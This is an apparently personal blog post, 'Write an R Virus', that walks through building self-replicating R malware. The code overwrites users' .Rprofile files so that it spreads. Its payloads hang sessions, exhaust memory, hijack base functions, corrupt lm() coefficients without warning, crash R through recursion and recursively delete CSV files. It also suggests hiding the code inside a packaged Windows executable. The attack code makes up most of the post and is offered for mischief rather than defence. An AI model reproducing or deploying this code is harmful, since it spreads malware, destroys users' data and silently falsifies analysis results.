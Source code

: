 ```yaml
---
title: 'Write an R Virus '
author: Siqi Zhang
date: '2018-09-27'
slug: how-to-write-an-r-virus
categories:
  - R
tags:
  - Programming
---
```


A [computer virus](https://en.wikipedia.org/wiki/Computer_virus) is a piece of program that can:

 - copy itself
 - do bad things     

This is not very hard to accomplish with R, as I will demonstrate in this article.  

  
## Replicate ##
    
The [_virus_](https://gist.github.com/iqis/e4030f6af45d0d3ebae21f2816c1fc58) exploits R's initilization script, `.Rprofile`. When R starts up, it is going to look for this file in the current working directory and the user's home directory, then runs everything in it:
```r
{
    function() {
        rp_paths <- c("~/.Rprofile", paste0(getwd(), "/.Rprofile"))
        inject <- function(rp, code) {
            write(code, file = rp, append = FALSE)
        }
        lapply(rp_paths, inject, code = deparse(match.call()))

        cat("Wow, your R is Rancid!!!\n")
    }
}()

```

When the above script is run, it will make a copy of itself through `deparse(match.call())`, and overwrite the `.Rprofile` files. The next time you open a new R session, everything you see in the above will be run again. Right now, our virus does nothing but printing something at the end of your start up message.

```
...

Type 'demo()' for some demos, 'help()' for on-line help, or
'help.start()' for an HTML browser interface to help.
Type 'q()' to quit R.

Wow, your R is Rancid!!!
```
Any project that started by the user is going to have its project folder infected. Likewise, if someone copy-and-pasted the R project folder to another computer, and start R from there, his home folder is going to be infected.

As R is an interpreted language, this seems to be the only way to infection. To conceal our malicous code, there is a way of packing a Shiny app into a Windows executable through using a tool called [RInno](https://ficonsulting.github.io/RInno/), which has [Electron](https://electronjs.org/) behind itself.
  
## Damage ##
    
It looks like that the replication part of the virus is taken care of. What, then, are some malicious scripts that we can have fun with? 

There could be countless ways.

One of the easiest thing to do is to hang the user's R session. It could be done as simply as putting it to _sleep_ for a really long time:
```r
Sys.sleep(1e9)
```
... like 30 years, give or take.

Or, let R come up with a really large number; this is also going take up available memory to the user.
```r
rnorm(1e9)
```
For me, 1e9 is quite enough. But scientific notaion is your friend. Go big.

However, if R is rendered completely unusable, the virus isn't goint to travel very far. That's not what we want. It is also a great idea to replace some good functions with naughty ones. Symbol bindings are locked in attached namespaces, but it is easy to undo that:
```r
reassign <- function(sym, value, envir) {
        envir <- as.environment(envir)
        unlockBinding(sym, envir)
        assign(sym, value, envir = envir)
}
```

We can do the user a service by forbidding the `library()` function, and prompt a better option.
```r
reassign("library", 
         function(...) warning("No man, seriously. Use require()"),
         "package:base"
)
```

The effect would be:
```r
library(purrr)
```

Now let's try something more subtle and more bad(_badder_?). We first extend the `reassign()` function a little bit...
```r
tamper <- function(sym, value, envir){
        assign(paste0(".",sym), 
               get(sym, envir = as.environment(envir)), 
               envir = as.environment("package:base")
               )
        reassign(sym, value, envir)
}
```

... and use it to slip in some bad code.
```r
tamper("lm",
       function(...){
               model <- .lm(...)
               model$coefficients <- 
                       model$coefficients * (1 + rnorm(1))
               model
               },
       "package:stats")
```

Now when we build a model; the coefficients looks normal, but are completely off. You can compare the this with the result on your own computer.
```r
lm(mpg ~ ., data = mtcars)$coefficients
```

In the above, we saved a copy of the original function in the base package, concealing it with prepending the name wit a `.`. If we didn't do that, we would have create an infinite recursion through self-refernce, such as:
```r
reassign("paste",
         function(...) paste(...),
         "package:base")

```

```r
paste("foo", "bar")
```
Running this will have an effect of crashing the R session. If the user didn't save documents before setting off this bomb,it's obviously too bad. Another way to create trouble.

## Further Damage ##
    
There are yet more ways to our streak of mischief. For starters, how about deleting every `csv` file the user has in the working directory? 
```r
file.remove(list.files(getwd(), 
                       ".csv",
                       recursive = TRUE)
```
    
Doing something on the file system is a big step foward form just messing with their R session.

From annoying to destructive, the level of naughtiness only limited by on your imagination. With some deliberation, you can ruin someone's life in a very meaningful way. 

Here are some futher ideas:

  -  Bloat the user's disk space with meaningless data
  -  Give wrong results only _sometimes_ when a function is called
  -  Use [Rstudio API](https://rstudio.github.io/rstudio-extensions/pkgdown/rstudioapi/index.html) to mess with the user's scripts in the editor, or some other wild sh*t.

    
    
**Note**  
You also have the choice of putting any of the malicious programs in `.First()` and `.Last()` functions, which will run at the beginning and the end of a session. See the [R Manual](https://stat.ethz.ch/R-manual/R-devel/library/base/html/Startup.html) for details. 

More on `.Rprofile`: [Fun with .Rprofile and customizing R startup](http://www.onthelambda.com/2014/09/17/fun-with-rprofile-and-customizing-r-startup/)
